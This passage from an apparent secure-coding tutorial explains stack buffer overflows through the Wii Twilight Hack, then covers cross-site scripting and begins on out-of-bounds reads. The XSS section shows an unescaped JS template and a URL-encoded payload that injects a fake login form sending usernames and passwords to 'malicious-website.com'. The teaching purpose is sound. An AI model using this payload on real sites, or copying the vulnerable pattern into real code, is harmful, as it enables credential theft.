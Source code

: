 One interesting example of this vulnerability was in the [Twilight Hack](http://wiibrew.org/wiki/Twilight_Hack#Explanation) of The Legend of Zelda: Twilight Princess, discovered in 2008. The hack worked by loading a custom save file that stored a horse’s name with a string longer than the game expected. And the extra characters in the name caused the game to run a file on the SD card that gave the user complete low-level control of the Nintendo Wii.

Modern languages and operating systems have different mechanisms for preventing stack buffer overflows, like [randomizing the memory layout](https://www.techtarget.com/searchsecurity/definition/address-space-layout-randomization-ASLR) and [disabling stack execution](https://en.wikipedia.org/wiki/Executable_space_protection).

2\. **Improper neutralization of input during web page generation (cross-site scripting)**

When a web application generates pages containing unchecked user-provided data, the page can be made to run malicious code on a client browser. For example, this program returns a web page that displays an email from the URL’s query parameters:

```js
const { email } = request.query;
return `<div class="header">Welcome, ${email}.</div>`;
```

But because the endpoint allows any value as the email address, an attacker can inject HTML elements and JS scripts into the page. A user who visits the URL with this query parameter:

```text
?email=%3Cdiv%3EPlease%20Login%3A%3Cform%20action%3D%22malicious-website.com%22%20method%3D%22POST%22%3E%3Cp%3EUsername%3A%20%3Cinput%20type%3D%22text%22%20name%3D%22username%22%20%2F%3E%3C%2Fp%3E%3Cp%3EPassword%3A%20%3Cinput%20type%3D%22password%22%20name%3D%22password%22%20%2F%3E%3C%2Fp%3E%3Cinput%20type%3D%22submit%22%20value%3D%22Login%22%20%2F%3E%3C%2Fform%3E%3C%2Fdiv%3E
```

...will see a login form from which the attacker can steal their private information.

```html
<div class="header">
  Welcome,
  <div>
    Please Login:

    <form action="malicious-website.com" method="POST">
      <p>Username: <input type="text" name="username" /></p>
      <p>Password: <input type="password" name="password" /></p>
      <input type="submit" value="Login" />
    </form>
  </div>
</div>
```

Most popular web servers and frameworks provide functionality to validate and neutralize user input to protect web applications from this vulnerability. Validation typically involves checking that the input matches the correct format, type, length, etc., while neutralization makes the input safe to use, like by encoding HTML characters, for example.

3\. **Out-of-bounds read**

This is the "read" version of the stack buffer overflow vulnerability, where failing to validate user input causes the program to read data outside its expected bounds.

